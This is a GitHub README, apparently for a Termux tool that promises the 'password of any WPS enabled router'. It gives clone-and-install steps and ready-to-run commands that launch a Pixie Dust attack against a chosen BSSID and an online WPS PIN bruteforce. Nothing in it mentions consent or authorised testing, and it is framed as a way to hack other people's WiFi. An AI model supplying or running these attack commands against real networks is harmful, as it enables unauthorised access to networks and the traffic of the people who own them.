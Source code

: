 # WifiHacking
A termux tool to get password of any WPS enabled router.

## Wifi_Hacking
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ git clone https://github.com/paran360/WifiHacking
$ cd WifiHacking
$ python installer.py
```

#### Example : `sudo python wifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

